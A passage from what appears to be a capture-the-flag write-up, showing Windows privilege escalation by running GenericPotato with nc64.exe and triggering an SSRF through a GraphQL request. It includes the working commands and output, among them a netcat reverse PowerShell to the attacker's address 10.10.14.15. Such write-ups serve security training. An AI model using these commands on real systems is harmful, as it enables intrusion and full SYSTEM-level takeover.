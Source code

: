 ```

PS C:\programdata> ls

    Directory: C:\programdata

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d---s-        9/15/2018  12:21 AM                Microsoft
d-----       11/18/2020  10:11 AM                Package Cache
d-----       11/11/2020  11:50 AM                regid.1991-06.com.microsoft
d-----        9/15/2018  12:12 AM                SoftwareDistribution
d-----        3/16/2021   4:38 AM                ssh
d-----       11/11/2020  11:53 AM                USOPrivate
d-----       11/11/2020  11:53 AM                USOShared
d-----       11/11/2020  11:48 AM                VMware
-a----        5/25/2021   5:48 PM         683520 GenericPotato.exe
-a----        5/25/2021   5:52 PM          45272 nc64.exe

```

#### Run

Now it’s just a matter of running GenericPotato and triggering the SSRF. It’s important to note that the args are slightly different than RoguePotato, in that they take a `-p` for the process to run, and `-a` for an argument string for that process.

```

PS C:\programdata> .\GenericPotato.exe -p "C:\programdata\nc64.exe" -a "10.10.14.15 443 -e powershell" -e HTTP
GenericPotato by @micahvandeusen
  Modified from SweetPotato by @_EthicalChaos_

[+] Starting HTTP listener on port http://127.0.0.1:8888
[+] Listener ready

```

It’s now listening for HTTP on port 8888 (I could change that with `-l`).

I’ll trigger the SSRF, which will get the SYSTEM process to connect to it:

```

oxdf@parrot$ curl -d '{ "query": "mutation{updatePlant(plantId:1, version: 223.0, sourceURL: \"http://localhost:8888\")}" }' -X POST http://127.0.0.1:8888/api/graphql -H 'Content-Type: application/json' -s | jq -c .
{"data":{"updatePlant":false}}

```

It returned false, but back at GenericPotato:

```

[+] Starting HTTP listener on port http://127.0.0.1:8888
[+] Listener ready
Request for: /
Client: NT AUTHORITY\SYSTEM
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching C:\programdata\nc64.exe
[+] Running "C:\programdata\nc64.exe" 10.10.14.15 443 -e powershell
[+] Process created, enjoy!

```
